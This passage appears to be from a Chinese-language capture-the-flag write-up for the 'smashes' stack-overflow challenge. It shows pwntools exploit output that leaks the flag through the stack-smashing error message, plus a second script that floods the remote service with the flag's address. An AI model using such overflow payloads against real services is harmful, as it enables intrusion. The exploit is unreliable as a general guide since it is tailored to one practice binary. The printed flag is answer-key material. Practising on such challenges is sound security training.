 	r.interactive()

	

	@ubuntu:~/Desktop$ python smashes.py

	[+] Opening connection to pwn.jarvisoj.com on port 9877: Done

	[*] Switching to interactive mode

	What's your name? Nice to meet you,
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@.

	Please overwrite the flag: $

	Thank you, bye!

	*** stack smashing detected ***: PCTF{57dErr_Smasher_good_work!}
	terminated

	[*] Got EOF while reading in interactive


拿到flag。

还有一种办法就是直接用大量flag的地址填充，但不要太多。


	from pwn import *

	#r=process('./smashes')

	r=remote('pwn.jarvisoj.com',9877)

	flag_addr=0x400d20

	payload=p64(flag_addr)*100

	r.sendline(payload)

	r.interactive()
